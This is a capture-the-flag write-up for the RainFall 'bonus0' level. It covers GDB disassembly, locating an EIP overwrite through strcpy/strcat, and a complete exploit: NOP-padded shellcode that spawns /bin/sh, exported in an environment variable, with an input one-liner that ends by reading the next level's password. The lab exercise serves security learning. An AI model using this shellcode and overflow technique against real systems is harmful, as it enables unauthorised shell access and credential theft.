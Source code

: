 # Bonus0

## Exploring the binary
```shell
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
phantom
phantom phantom
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
society
phantom society
```
The binary waits for two strings from standard input, then prints them together, separated by a space.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
```
During runtime, the function <code>pp()</code> is called from <code>main()</code>, and the <code>puts()</code> function is used to print the output. We inspect <code>pp()</code>:

```shell
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	push   %edi
   0x08048522 <+4>:	push   %ebx
   0x08048523 <+5>:	sub    $0x50,%esp
   0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:	lea    -0x30(%ebp),%eax
   0x08048531 <+19>:	mov    %eax,(%esp)
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:	lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:	mov    %eax,(%esp)
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    -0x30(%ebp),%eax
   0x0804854f <+49>:	mov    %eax,0x4(%esp)
   0x08048553 <+53>:	mov    0x8(%ebp),%eax
   0x08048556 <+56>:	mov    %eax,(%esp)
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    $0x80486a4,%ebx
   0x08048563 <+69>:	mov    0x8(%ebp),%eax
   0x08048566 <+72>:	movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:	mov    %eax,%edx
   0x0804856f <+81>:	mov    $0x0,%eax
   0x08048574 <+86>:	mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:	mov    %edx,%edi
   0x08048579 <+91>:	repnz scas %es:(%edi),%al
   0x0804857b <+93>:	mov    %ecx,%eax
   0x0804857d <+95>:	not    %eax
   0x0804857f <+97>:	sub    $0x1,%eax
   0x08048582 <+100>:	add    0x8(%ebp),%eax
   0x08048585 <+103>:	movzwl (%ebx),%edx
   0x08048588 <+106>:	mov    %dx,(%eax)
   0x0804858b <+109>:	lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:	mov    %eax,0x4(%esp)
   0x08048592 <+116>:	mov    0x8(%ebp),%eax
   0x08048595 <+119>:	mov    %eax,(%esp)
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    $0x50,%esp
   0x080485a0 <+130>:	pop    %ebx
   0x080485a1 <+131>:	pop    %edi
   0x080485a2 <+132>:	pop    %ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
```
We see that <code>pp()</code> invokes potentially exploitable functions such as <code>strcpy()</code> and <code>strcat()</code>, and it also calls <code>p()</code> twice. We proceed to disassemble <code>p()</code>.
```shell
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
```
This function is responsible for invoking the <code>read()</code> function. We observe that the value <code>0x1000</code> (4104) is pushed into the memory location specified by <code>0x8(%esp)</code>, setting up the buffer size for the <code>read()</code> call. The effective address of the memory location <code>-0x1008(%ebp)</code> is then loaded into the <code>eax</code> register, which limits the bytes read to 4096 (diff 8).

## buffer overflow
The buffer overflow limitation will be determined by <code>strcat()</code>, so we will examine the buffer's state before <code>puts()</code> is called in <code>main()</code>. Our objective is to pass two long strings as parameters and then inspect the value of the instruction pointer register (<code>EIP</code>) at the point of <code>puts</code> execution.
``` shell
(gdb) b *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmn

Breakpoint 1, 0x080485c0 in main ()
(gdb) step
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x51504f4e: Input/output error.

0x4d4c4b4a in ?? ()
(gdb) i reg
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff730	0xbffff730
ebp            0x49484746	0x49484746
esi            0x0	0
edi            0x0	0
eip            0x4d4c4b4a	0x4d4c4b4a
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now, we observe that register overwriting begins at the tenth character, marked as 'J', suggesting an offset of 9. This size makes it fairly impossible to use a classic <code>ret2libc</code> attack, so we will use a <code>shellcode</code> for this purpose. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://0xrick.github.io/binary-exploitation/bof5/):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
bonus0@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus0@RainFall:/tmp$ cc addr.c -o addr
bonus0@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85b
```
The only thing left to do is to expose the address of this environmental variable, which can be easily accomplished with our custom C binary. Then, we can construct a simple input that will pass both strings (separated by <code>\n</code>) following these rules:
- the total size of the first buffer is 4096
- offset of the second string is equal to 9
- overflow will happen in the second string
``` shell
4095 * placeholder | \n | 9 * placeholder | shellcode | 150 * placeholder
```

## Exploit
``` shell
bonus0@RainFall:~$ python -c 'print "F"*4095 + "\n" + "F"*9 + "\xbf\xff\xf8\x5b"[::-1] + "F"*150' > /tmp/flagb0
bonus0@RainFall:~$ cat /tmp/flagb0 - | ./bonus0
 -
 -
FFFFFFFFFFFFFFFFFFFFFFFFFFFFF[���FFFFFFF��� FFFFFFFFF[���FFFFFFF���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
